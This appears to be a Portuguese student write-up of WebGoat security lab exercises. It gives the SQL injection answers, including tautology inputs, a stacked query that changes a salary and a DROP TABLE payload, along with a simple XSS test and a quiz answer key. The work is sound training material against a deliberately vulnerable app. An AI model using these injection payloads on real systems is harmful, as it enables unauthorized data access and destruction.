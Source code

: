 ## Pergunta 1.1 - SQL Injection ##
### 2) ###
Retornar o departamento do empregado Bob Franco. 

    SELECT department FROM Employees WHERE first_name='Bob' AND last_name='Franco'

![1.2](./imagens/1.2.png)  


### 3) ###
Alterar o departamento do empregado Tobi Barnett para 'Sales'.

    UPDATE Employees SET department='Sales' WHERE first_name='Tobi' AND last_name='Barnett'
    
![1.3](./imagens/1.3.png)


### 4) ###
Adicionar a coluna "phone" na tabela "employees"

    ALTER TABLE Employees ADD phone varchar(20)
    
![1.4](./imagens/1.4.png)


### 5) ###
Conceder a um grupo de utilizadores o direito de alterar tabelas

    GRANT ALTER TABLE TO 'UnauthorizedUser'
    
![1.5](./imagens/1.5.png)


### 9) ###
Obter todos os utilizadores da tabela onde os campos foram preenchidos por:
+ Smith'
+ or
+ '1'='1

A query final otida foi:

    SELECT * FROM user_data WHERE first_name="John" and last_name='Smith' or '1'='1'
    
![1.9](./imagens/1.9.png)


### 10) ###
O objetivo desta alínea passava por retornar todos os dados da tabela 'users'. Assim, após descobrimos que o campo User_Id era suscetível a SQL Injection, preenchemos os campos da seguinte forma:
+ **Login_Count**: 1
+ **User_Id**: 1 or 1=1

Obtendo assim:

    SELECT * FROM user_data WHERE Login_Count=1 and userid=1 or 1=1
    
![1.10](./imagens/1.10.png)


### 11) ###
Neste ponto era pretendido obter todos os dados da tabela 'employees', sabendo que a query era: 
    
    SELECT * FROM employees WHERE last_name='" + name + "' AND auth_tan= '" + auth_tan + ""
   
Assim, os campos foram completados com: 
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A' or '1'='1';--

![1.11](./imagens/1.11.png)


### 12) ###
Após sabermos o formato da tabela 'employees' devido à alínea anterior bastava-nos alterar o input pretendido num dos campos criando uma nova query e delimintando-as com ';'

Posto isto, os campos forma preenchidos da seguinte forma:
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A'; UPDATE SET salary=9999999 where last_name='Smith

![1.12](./imagens/1.12.png)


### 13) ###
Para apagar os registos feitos pelo utilizador o input foi completado da seguinte forma: 
    
    Smith'; DROP TABLE access_log;--
    
Assim, a query anterior foi separada da nova utilizando novamente ";"

![1.13](./imagens/1.13.png)



## Pergunta 2.1 - XSS ##

### 2) ###

Após testarmos o comando na barra de endereços chegámos à conclusão qe a informação apresentada em ambas as páginas era a mesma.

![2.2](./imagens/2.2.png)


### 7) ###
Depois de executar alguns testes o campo vulnerável descoberto foi o do cartão de crédito, onde executamos:

    <javascript>alert()</javascript>
    
    
### 10) ###

Primeiramente fomos à fonte do JavaScritp através do atalho de teclado : CTRL + SHIFT + I e procurámos pelo ficheiro GoatRouter.js onde encontrámos todas as rotas inclusive a de teste que tinha sido deixada durante a produção da aplicação.

![2.10.1](./imagens/2.10.1.png)



![2.10.2](./imagens/2.10.2.png)


### 11) ###



### 12) ###

+ **1**: Solution 4
+ **2**: Solution 3
+ **3**: Solution 1
+ **4**: Solution 2
+ **5**: Solution 4



## Pergunta 3.1 - Password Reset ##

## Pergunta 4.1 - Vulnerable components ##



  

  
    




